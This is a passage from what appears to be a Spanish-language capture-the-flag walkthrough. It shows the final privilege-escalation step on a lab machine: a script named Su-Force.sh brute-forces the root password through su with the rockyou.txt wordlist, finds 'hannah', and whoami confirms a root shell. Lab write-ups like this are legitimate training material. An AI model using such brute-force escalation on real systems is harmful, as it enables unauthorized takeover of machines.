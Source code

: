 ```shell
cd /tmp
bash Su-Force.sh root rockyou.txt
```

Info:

```
Contraseña encontrada para el usuario root: hannah
```

Veremos que ha funcionado, vamos a escalar a `root`.

```shell
su root
```

Metemos como contraseña `hannah` y veremos que seremos dicho usuario.

Info:

```
root@6cb5977c3ce1:~# whoami
root
```

Con esto ya habremos terminado la maquina.
